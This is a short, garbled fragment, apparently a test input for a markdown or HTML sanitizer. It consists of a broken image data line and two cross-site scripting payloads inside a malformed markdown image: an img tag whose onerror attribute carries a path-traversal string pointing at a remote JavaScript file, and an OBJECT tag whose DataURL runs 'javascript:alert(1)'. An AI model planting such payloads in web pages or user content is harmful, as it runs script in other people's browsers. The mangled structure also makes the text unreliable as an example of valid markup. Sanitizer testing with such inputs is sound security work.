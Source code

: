 ![

<img src="" onerror="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

](()
